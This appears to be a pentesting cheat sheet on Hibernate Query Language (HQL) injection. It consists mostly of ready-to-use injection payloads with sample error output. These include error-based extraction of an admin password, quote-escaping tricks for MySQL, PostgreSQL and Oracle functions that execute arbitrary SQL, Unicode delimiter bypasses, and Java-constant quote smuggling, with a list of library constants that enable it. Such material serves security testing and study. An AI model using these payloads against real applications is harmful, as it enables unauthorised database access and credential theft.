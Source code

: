 # Hibernate Query Language Injection

> Hibernate ORM (Hibernate in short) is an object-relational mapping tool for the Java programming language. It provides a framework for mapping an object-oriented domain model to a relational database. - Wikipedia

## Summary

* [HQL Comments](#hql-comments)
* [HQL List Columns](#hql-list-columns)
* [HQL Error Based](#hql-error-based)
* [Single Quote Escaping](#single-quote-escaping)
* [$-quoted strings](#--quoted-strings)
* [DBMS Magic functions](#dbms-magic-functions)
* [Unicode](#unicode)
* [Java constants](#java-constants)
* [Methods by DBMS](#methods-by-dbms)
* [References](#references)

:warning: Your input will always be between the percentage symbols: `%INJECT_HERE%`

## HQL Comments

```sql
HQL does not support comments
```

## HQL List Columns

```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%' --
  and published = true
```

Using an unexisting column will an exception leaking several columns names.

```sql
org.hibernate.exception.SQLGrammarException: Column "DOESNT_EXIST" not found; SQL statement:
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

## HQL Error Based

```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

Error based on value casting.

```sql
Data conversion error converting "d41d8cd98f00b204e9800998ecf8427e"; SQL statement:
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

:warning: **HQL does not support UNION queries**

## Single Quote Escaping

Method works for MySQL DBMS which escapes SINGLE QUOTES in strings with SLASH `\'`.

In HQL SINGLE QUOTES is escaped in strings by doubling `''`.

```
'abc\''or 1=(select 1)--'
```

In HQL it is a string, in MySQL it is a string and additional SQL expression.

## $-quoted strings

Method works for DBMS which allow DOLLAR-QUOTED strings in SQL expressions: PostgreSQL, H2.

Hibernate ORM allows identifiers starting with `$$`.

```
$$='$$=concat(chr(61),chr(39)) and 1=1--'
```

## DBMS Magic functions

Method works for DBMS which have MAGIC FUNCTIONS which evaluate SQL expression in string parameter: PostgreSQL, Oracle.

Hibernate allows to specify any function name in HQL expression.

PostgreSQL has built-in function `query_to_xml('Arbitrary SQL')`.

```
array_upper(xpath('row',query_to_xml('select 1 where 1337>1', true, false,'')),1)
```

Oracle has built-in function `DBMS_XMLGEN.getxml('SQL')`

```
NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 where 1337>1')),'1')!='1'
```

## Unicode

Method works for DBMS which allow UNICODE delimiters (Ex. U+00A0) between SQL tokens: Microsoft SQL Server, H2.

In Microsoft SQL SERVER `SELECT LEN([U+00A0](select[U+00A0](1))` works the same as `SELECT LEN((SELECT(1)))`;

HQL allows UNICODE symbols in identifiers (function or parameter names).

```
SELECT p FROM hqli.persistent.Post p where p.name='dummy' or 1<LEN( (select top 1 name from users)) or '1'='11'
```

## Java constants

Method works for most DBMS (does not work for MySQL).

Hibernate resolves Java public static fields (Java constants) in HQL queries:

- Class with Java constant must be in classpath
- Ex. `java.lang.Character.SIZE` is resolved to 16
- String or char constants are additionally surrounded by single quotes

To use JAVA CONSTANTS method we need special char or string fields declared in classes or interfaces on classpath.

```java
public class Constants {
    public static final String S_QUOTE = "'";
    public static final String HQL_PART = "select * from Post where name = '";
    public static final char C_QUOTE_1 = '\'';
    public static final char C_QUOTE_2 = '\047';
    public static final char C_QUOTE_3 = 39;
    public static final char C_QUOTE_4 = 0x27;
    public static final char C_QUOTE_5 = 047;
}
```

Some usable constants in well-known Java libraries:

```ps1
org.apache.batik.util.XMLConstants.XML_CHAR_APOS         [ Apache Batik ]
com.ibm.icu.impl.PatternTokenizer.SINGLE_QUOTE           [ ICU4J ]
jodd.util.StringPool.SINGLE_QUOTE                        [ Jodd ]
ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR      [ Logback ]
cz.vutbr.web.csskit.OutputUtil.STRING_OPENING            [ jStyleParser ]
com.sun.java.help.impl.DocPConst.QUOTE                   [ JavaHelp ]
org.eclipse.help.internal.webapp.utils.JSonHelper.QUOTE  [ EclipseHelp ]
```

```
dummy' and hqli.persistent.Constants.C_QUOTE_1*X('<>CHAR(41) and (select count(1) from sysibm.sysdummy1)>0 --')=1 and '1'='1
```


## References

- [HQL for pentesters - Philippe Arteau - February 12, 2014](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
- [How to put a comment into HQL (Hibernate Query Language)? - Thomas Bratt - July 7, 2010](https://stackoverflow.com/questions/3196975/how-to-put-a-comment-into-hql-hibernate-query-language)
- [HQL: Hyperinsane Query Language - Renaud Dubourguais - June 4, 2015](https://www.synacktiv.com/ressources/hql2sql_sstic_2015_en.pdf)
- [ORM2Pwn: Exploiting injections in Hibernate ORM - Mikhail Egorov - November 26, 2015](https://www.slideshare.net/0ang3el/orm2pwn-exploiting-injections-in-hibernate-orm)
- [New Methods for Exploiting ORM Injections in Java Applications - HITBSecConf2016 - Mikhail Egorov - Sergey Soldatov - October 16, 2016](https://web.archive.org/web/20161016220026/https://conference.hitb.org/hitbsecconf2016ams/materials/D2T2%20-%20Mikhail%20Egorov%20and%20Sergey%20Soldatov%20-%20New%20Methods%20for%20Exploiting%20ORM%20Injections%20in%20Java%20Applications.pdf)
- [HQL Injection Exploitation in MySQL - Olga Barinova - July 18, 2019](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hql-injection-exploitation-in-mysql/)